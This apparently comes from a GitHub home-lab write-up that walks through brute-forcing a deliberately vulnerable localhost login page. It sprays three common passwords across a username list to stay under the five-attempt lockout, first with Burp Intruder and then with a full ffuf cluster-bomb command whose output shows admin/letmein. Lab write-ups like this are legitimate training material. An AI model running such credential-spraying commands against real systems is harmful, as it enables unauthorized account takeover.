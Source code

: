# Challange

**Warning: Accounts will lock after 5 failed login attempts!**

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/bf052298-9a01-4ceb-9b95-3edff09db0ac)

- On trying a random username and password we got 1 incorrect login attempt.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/bbb01de2-37bc-4443-bb2e-9b0e957f0912)

- While submitting another random username and password we revert nothing, so here is the indication that the admin user exists.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/88f63aba-2d2f-4a92-a999-f6e2e7e6a460)

- We will make a list of the top 3 most used passwords to not let the accounts lock.
  - Passwords: letmein, 123456, teashop
- Next, we will intercept the request and send it to the intruder.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/8e81949b-4f3f-492a-8e87-f8344d6d3046)

- Next, we will use the attack method as cluster bomb load the username list and the top 3 passwords.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/b10fa344-0272-4c2c-b6e4-c7ef1f4fafb2)

- After clicking on start attack we have got the user `admin` and password `letmein`.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/23b9c815-4b5f-4baa-bd98-76ce639a40d9)

- On entering the details of user admin and password letmein. We have successfully logged in.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/71df3f6f-5534-4a2d-967f-8f5ffa7082c7)

## Alternate:

- We can use the tool called ffuf,wffuf, and hydra to achieve the same. This time let's use ffuf.
- For using ffuf we need to copy the request and save it to a file in the local machine.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/344da305-c1d7-4862-9b4c-cdfb0f3cf384)

- On saving the request to the file, we need to do some modifications to the file by defining the arguments to get suitable results.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/02e71889-c2f0-488a-a5a8-510cbd2f20c0)

- Make a file of the top 3 passwords.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/84fa82ce-2062-4de1-95fa-09f3092e3f3a)

- By using the command: `ffuf -request reqs.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w /usr/usernames-shortlist.txt:FUZZUSER -fs 3376,3256`

```bash
└─$ ffuf -request reqs.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w /usr/share/wordlists/seclists/SecLists-master/Usernames/top-usernames-shortlist.txt:FUZZUSER -fs 3376,3256

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x03.php
 :: Wordlist         : FUZZPASS: /home/singhx/labs/PEH/XSS/pass.txt
 :: Wordlist         : FUZZUSER: /usr/share/wordlists/seclists/SecLists-master/Usernames/top-usernames-shortlist.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Host: localhost
 :: Header           : Origin: http://localhost
 :: Header           : Referer: http://localhost/labs/a0x03.php
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZUSER&password=FUZZPASS
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 3376,3256
________________________________________________

[Status: 200, Size: 3378, Words: 1270, Lines: 68, Duration: 3ms]
    * FUZZPASS: letmein
    * FUZZUSER: admin

:: Progress: [51/51] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
- Got the same credentials.
